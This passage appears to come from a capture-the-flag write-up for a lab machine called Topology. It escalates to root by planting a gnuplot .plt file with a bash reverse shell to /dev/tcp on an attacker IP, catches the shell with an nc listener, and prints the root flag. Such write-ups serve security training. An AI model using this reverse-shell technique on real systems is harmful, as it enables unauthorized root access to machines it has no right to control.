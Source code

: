 > Yes we are. 
{: .prompt-info }

Lets create a `plt` file, place it in the folder and wait to see if a reverse shell is triggered.  
  
Content of `plt` file
```bash
-bash-5.0$ cat 2.plt 
system "bash -c 'bash -i >& /dev/tcp/10.10.14.18/80 0>&1'"
```

Start listener on attacker machine.
```bash
$ nc -lvp 80
listening on [any] 80 ...
```

Copy `2.plt` to `/opt/gnuplot`.
```bash
-bash-5.0$ cp 2.plt /opt/gnuplot/.
```

Wait for reverse shell.
```bash
$ nc -lvp 80
listening on [any] 80 ...
connect to [10.10.14.18] from topology.htb [10.10.11.217] 59910
bash: cannot set terminal process group (82007): Inappropriate ioctl for device
bash: no job control in this shell
root@topology:~# id
id
uid=0(root) gid=0(root) groups=0(root)
```

> It worked and we are `root`!
{: .prompt-info }

## getting the second flag
```bash
root@topology:~# ls
ls
root.txt
root@topology:~# cat root.txt
cat root.txt
c6a9e87035b810d15598b8dd94b7e3d7
```

Pwned! <@:-) 
